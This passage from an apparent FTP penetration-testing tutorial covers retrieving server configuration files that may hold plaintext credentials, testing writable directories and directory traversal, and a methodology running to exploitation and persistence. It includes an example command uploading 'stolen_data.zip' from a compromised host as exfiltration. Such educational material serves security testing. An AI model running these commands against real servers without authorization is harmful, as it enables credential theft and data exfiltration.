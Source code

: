 FTP servers may expose sensitive configuration files:

```bash
ftp> get ftpusers
ftp> get user_list
ftp> get vsftpd.conf
```

These files often contain plaintext credentials or security settings.

#### Abusing FTP for Data Exfiltration

In environments with restricted outbound connections, FTP can sometimes be used to exfiltrate data:

```bash
# From compromised system
ftp> put stolen_data.zip
```

### Misconfiguration Detection

#### Identifying Writable Directories

```bash
# Test ability to create directories
ftp> mkdir test

# Test file upload
ftp> put test.txt
```

#### Checking Permissions

```bash
# List files with permissions
ftp> ls -la
```

Example output:

```
drwxr-xr-x 2 user     group     4096 Aug 1 12:00 .
drwxr-xr-x 4 user     group     4096 Aug 1 12:00 ..
-rw-r--r-- 1 user     group     1234 Aug 1 12:00 confidential.txt
```

#### Testing Directory Traversal

```bash
# Attempt to navigate outside intended directory
ftp> cd ../
ftp> cd /etc
```

### FTP Penetration Testing Methodology

1. **Discovery**: Identify FTP services on the network
2. **Banner Analysis**: Gather version information
3. **Authentication Testing**: Try anonymous login, then credential attacks
4. **Directory Enumeration**: Map accessible directories and permissions
5. **Configuration Review**: Look for misconfigurations and security issues
6. **Vulnerability Testing**: Check for known vulnerabilities based on version
7. **Exploitation**: Attempt appropriate exploits
8. **Post-Exploitation**: Extract valuable information or establish persistence

